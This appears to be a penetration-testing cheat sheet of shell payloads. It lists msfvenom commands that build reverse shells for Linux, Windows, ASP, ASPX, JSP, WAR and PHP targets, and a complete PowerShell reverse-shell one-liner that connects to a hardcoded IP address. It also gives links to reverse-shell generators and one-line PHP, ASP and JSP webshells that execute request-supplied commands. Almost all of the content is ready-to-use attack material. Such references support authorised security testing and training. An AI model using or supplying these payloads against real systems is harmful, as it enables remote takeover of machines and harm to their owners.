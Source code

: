 # Shells

## Reverse shells


#### Linux - MSFVenom
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### Windows - MSFVenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### Powershell
```
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.194',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### ASP
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```
#### ASPX
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx
```
#### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```
#### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```
#### PHP
```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

#### Online Generator
<https://www.revshells.com/>
<https://weibell.github.io/reverse-shell-generator/>

## Single line Webshell

#### PHP
```
<?php echo passthru($_GET['cmd']); ?>
<?php echo shell_exec($_GET['cmd']); ?>
```
#### ASP
```
<% eval request("cmd") %>
```
#### JSP
```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
